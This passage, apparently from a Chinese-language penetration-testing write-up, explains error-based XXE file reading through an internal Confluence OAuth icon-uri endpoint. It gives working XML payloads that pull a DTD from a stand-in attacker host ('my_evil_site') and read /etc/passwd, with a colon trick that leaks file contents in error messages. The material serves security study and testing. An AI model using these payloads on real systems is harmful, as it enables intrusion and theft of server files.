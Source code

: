 响应：

```
no protocol: bin
boot
dev
etc
home
[...]
```

不错，现在列出了服务器根目录所包含的所有文件。

在这里，展现了另一种从服务器返回基于错误的输出结果的方法，也就是通过指定“缺少”的协议，而不是我们之前看到的无效协议。

这可以帮助我们解决阅读包含冒号的文件的问题，例如，使用上述方法读取/etc/passwd会出现如下错误。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml"&gt;
%ext;
%ent;
]&gt;
&lt;r&gt;&amp;data;&lt;/r&gt;
```

响应：

```
unknown protocol: root
```

换句话说，我们可以读取文件，直到第一次出现冒号。要绕过此问题，并强制在错误消息中显示完整文件内容的方法是，在文件内容之前添加冒号。这样将导致“无协议”错误，因为第一个冒号之前的字段为空，也就是未定义。托管的Payload现在修改如下：

```
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % ent "&lt;!ENTITY data SYSTEM ':%file;'&gt;"&gt;
```

需要注意%file;之前添加的冒号。现在重复我们的代理攻击，会产生以下结果。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml"&gt;
%ext;
%ent;
]&gt;
&lt;r&gt;&amp;data;&lt;/r&gt;
```
